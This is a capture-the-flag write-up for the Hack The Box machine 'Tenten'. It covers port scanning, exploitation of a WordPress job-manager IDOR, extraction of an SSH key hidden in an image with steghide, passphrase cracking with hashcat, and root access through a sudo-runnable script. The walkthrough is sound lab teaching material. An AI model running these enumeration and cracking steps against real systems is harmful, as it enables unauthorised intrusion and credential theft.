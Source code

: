 # [Tenten](https://app.hackthebox.com/machines/Tenten)

```bash
nmap -p- --min-rate 10000 10.10.10.10 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80 10.10.10.10 -Pn 
```

![alt text](img/image-1.png)

From nmap scan result, I see that this ip address is resolved into `tenten.htb`, that's why I need to add this domain name into `/etc/hosts` file for resolving purposes.


While I look at this web application, I see that it is `Wordpress` website.

![alt text](img/image-2.png)


Let's use `wpscan` tool to check `Wordpress` vulnerabilities for this target.
```bash
wpscan --url http://tenten.htb/
```

![alt text](img/image-3.png)


There is one plugin that named as `job-manager` which have `IDOR`(Insecure Direct Object Reference) vulnerability whose name is [CVE-2015-6668](https://github.com/c0d3cr4f73r/CVE-2015-6668.git).



So I can test this vulnerability via using `curl` command which we can see `Job Applications`.
```bash
for i in $(seq 1 25); do echo -n "$i: "; curl -s http://tenten.htb/index.php/jobs/apply/$i/ | grep 'entry-title' | cut -d'>' -f2 | cut -d'<' -f1; done
```

![alt text](img/image-4.png)


Let's look at `13` whose name is `HackerAccessGranted` by using exploit script.

![alt text](img/image-5.png)


While browsing this image URL, it shows me such below page.

![alt text](img/image-6.png)


Let's download this via `wget` command.
```bash
wget http://tenten.htb/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```

I guess this image have sensitive info that's why I use `steghide` to extract some data from this image.

```bash
steghide extract -sf HackerAccessGranted.jpg
```

![alt text](img/image-7.png)


It gives me private key `id_rsa` file, let's decrypt this via `ssh2john` tool to crack and find `passphrase`.

```bash
ssh2john id_rsa > hash.txt
```

![alt text](img/image-8.png)


**Note:** Don't forget removing `id_rsa` string from hash.txt file's beginning.


I crack this hash via `hashcat` command.
```bash
hashcat -m 22931 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```

![alt text](img/image-9.png)


From `wpscan` result, I already saw `takis` username, that's why I check this password for this user via `ssh` command.


takis: superpassword


Let's change permissions of `id_rsa` file to `600`, then use this to login into machine via `ssh`.


user.txt

![alt text](img/image-10.png)


While running `sudo -l` to check privileges of this user, I see interesting binary called `fuckin`.

![alt text](img/image-11.png)


I see that this is `Bash` script via `file` command.

![alt text](img/image-12.png)


While reading content of this script, it says that give me input and I will run this as `root` user.

![alt text](img/image-13.png)


root.txt

![alt text](img/image-14.png)